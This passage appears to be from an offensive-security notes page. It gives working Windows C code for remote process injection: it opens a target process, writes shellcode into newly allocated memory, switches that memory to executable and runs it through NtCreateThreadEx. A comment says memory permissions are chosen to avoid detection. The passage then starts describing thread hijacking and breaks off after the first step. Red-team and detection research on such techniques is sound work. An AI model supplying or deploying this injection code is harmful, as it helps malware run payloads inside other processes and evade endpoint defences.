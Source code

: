 ```c
        tpid = GetProcessId(argv[1]);
    }

    if (tpid == 0) {
        printf("Invalid PID or process name specified\n");
        return 1;
    }

    // Obtain an handle to the remote process.
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tpid);

    if (!hProc) {
        printf("Getting an handle on remote process using OpenProcess failed: %x\n", GetLastError());
        return 1;
    }

    // Allocate the memory section for the shellcode as PAGE_READWRITE (to avoid more detected PAGE_EXECUTE_READWRITE).
    LPVOID shellcodeBaseAddress = NULL;
    size_t szAllocated = szShellcode;
    NtAllocateVirtualMemory(hProc, &shellcodeBaseAddress, 0, (PSIZE_T) &szAllocated, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Copy the shellcode in the newly allocated memory section.
    NtWriteVirtualMemory(hProc, shellcodeBaseAddress, shellcode, szShellcode, 0);

    // Switch the protection of the shellcode's memory section to PAGE_EXECUTE_READ to execute the shellcode.
    DWORD oldprotect = 0;
    NtProtectVirtualMemory(hProc, &shellcodeBaseAddress, (PSIZE_T) &szAllocated, PAGE_EXECUTE_READ, &oldprotect);

    // Execute the shellcode by creating a new thread in the current process.
    HANDLE hThread = NULL;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProc, shellcodeBaseAddress, NULL, FALSE, NULL, NULL, NULL, NULL);

    CloseHandle(hProc);

    return 0;
}
```

*Thread hijacking (inter-process)*

The following code snippet can be used to execute the specified shellcode
by  hijacking a thread in the remote process.

Following the writing of the shellcode in the target process memory:

	1. A thread of the target process is first suspended (`NtOpenThread` +
		 `NtSuspendThread`).
